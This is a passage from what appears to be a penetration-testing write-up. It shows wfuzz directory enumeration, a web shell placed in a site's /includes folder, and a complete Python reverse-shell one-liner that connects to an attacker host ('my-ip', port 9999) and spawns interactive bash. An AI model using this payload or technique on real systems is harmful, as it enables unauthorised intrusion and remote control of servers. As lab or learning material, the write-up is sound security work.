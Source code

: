 Looking back at the `wfuzz` output, I noticed some other directories:

```bash
000000003:   301    "admin"
000000003:   301    "css"
000000003:   301    "js"
000000003:   301    "plugins"
000000003:   301    "images"
000000003:   301    "includes"
000000003:   301    "mail"
000000003:   301    "vendor"
```

Almost giving up, I tried writing the shell inside `/includes` — and it worked!

![image.png](/images/sql-injection-to-reverse-shell-and-root-access/web-shell.png)

### Getting a reverse shell

Now with the web shell in place, I aimed for a reverse shell.

First step: check what languages the server supports. Since it was a Linux server, Python seemed like a good candidate.

![image.png](/images/sql-injection-to-reverse-shell-and-root-access/python-binary.png)

Found Python. Time to craft the payload:

```bash
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("my-ip", 9999));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
subprocess.call(["/bin/bash","-i"]);'
```
